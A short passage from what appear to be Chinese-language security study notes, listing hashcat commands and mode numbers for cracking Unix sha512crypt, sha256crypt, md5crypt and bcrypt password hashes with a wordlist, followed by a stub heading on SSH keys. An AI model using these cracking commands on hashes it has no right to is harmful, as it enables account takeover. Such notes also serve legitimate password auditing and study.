

### 3.2.2. 加密形式破解

```
linux sha512crypt $6$, SHA512 (Unix)加密方式：
hashcat -m 1800 sha512linux.txt p.txt
linux sha256crypt $5$, SHA256 (Unix)加密方式：
hashcat -m 7400 sha256linux.txt p.txt
linux下md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)加密方式：
hashcat -m 500 linuxmd5.txt p.txt
inux下bcrypt $2*$, Blowfish加密方式：
hashcat -m 3200 linuxmd5.txt p.txt
```

## 3.3. SSH密钥

关于SSH密钥后面有空出一篇总结，个人感觉还挺复杂的，还在理解中。